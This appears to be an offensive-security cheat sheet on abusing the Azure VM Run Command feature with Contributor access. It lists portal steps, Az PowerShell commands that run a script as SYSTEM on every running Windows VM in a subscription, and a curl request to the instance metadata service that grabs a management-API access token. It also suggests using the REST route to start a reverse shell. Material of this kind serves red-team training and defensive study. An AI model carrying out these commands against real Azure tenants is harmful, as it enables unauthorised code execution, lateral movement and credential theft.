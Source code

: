 # Exploiting Run Command Feature

## Requirements: Contributor account/role access

### The Run Command feature of Azure VMs is a platform feature used to run scripts on VMs remotely using the VM agent. It can be used to run PowerShell scripts on Windows VMs and shell scripts on Linux VMs. It is generally used by administrators or developers to quickly diagnose and remediate VM access and network issues and get the VM back to a good state.

### Here is some information to keep in mind when exploiting this feature:

- Scripts run as the System account on Windows VMs and as an elevated user (typically root) on Linux VMs.

- We can only run one script at a time through the feature.

- Interactive scripts that prompt for user information are not supported.

- Outbound connectivity from the VM to Azure public IP addresses on port 443 is required to return the results of the script.

# 1) Azure Portal

 - Go to the "Virtual Machine" blade

 - Run command has prebuilt commands that can be run in the portal (You can run your own custom commands ofc)

 - Select "RunPowerShellScript" or "RunShellScript" for Linux (You can run your own custom commands for both Windows and Linux, as SYSTEM or root)

# 2) Az Powershell module

 - $VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

 - $VMs | select ResourceGrouName,Name (List the running Windows VMs and cast them to the VMs variable)

 - echo "whoami" > whoami.ps1

 - $VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1 (Run your powershell script on all VMs in the subscription)

# 3) Azure REST APIs

 - curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq (Obtain an access token that can be used to access the Azure management API endpoint)

 - $mgmtToken = "TOKEN_HERE"

 - Invoke-AzVMCommandREST -commandToExecute "whoami > test.txt" -managementToken $mgmtToken TENANT_ID (Run a command via REST API method. You can use this to start a reverse shell on target)
